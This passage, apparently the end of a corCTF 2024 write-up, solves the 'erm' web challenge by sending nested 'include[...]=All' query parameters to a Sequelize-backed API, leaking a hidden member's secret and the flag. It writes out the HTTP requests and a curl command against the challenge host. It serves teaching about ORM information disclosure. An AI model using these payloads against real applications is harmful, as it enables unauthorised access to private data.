 With that said, we can do nested eager loading with the following request:

```http
GET /api/writeups?include[all]=All&include[include][all]=All HTTP/1.1
Host: localhost


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2024/images/Pasted%20image%2020240729211854.png)

Nice! We now nest included table `Category`!

if we do the same thing again, we'll leak member `goroo`'s `secret`!

```http
GET /api/writeups?include[all]=All&include[include][all]=All&include[include][include][all]=All HTTP/1.1
Host: localhost


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2024/images/Pasted%20image%2020240729212107.png)

Nice!

Let's send the same request to the remote challenge instance and get the real flag!

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/erm/erm)-[2024.07.29|21:37:20(HKT)]
└> curl -s "https://erm.be.ax/api/writeups?include%5ball%5d=All&include%5binclude%5d%5ball%5d=All&include%5binclude%5d%5binclude%5d%5ball%5d=All" | jq -r '.writeups[0].Member.Categories[0].Members[-1].secret'
corctf{erm?_more_like_orm_amiright?}
```

- **Flag: `corctf{erm?_more_like_orm_amiright?}`**

## Conclusion

What we've learned:

1. Sequelize nested eager loading lead to information disclosure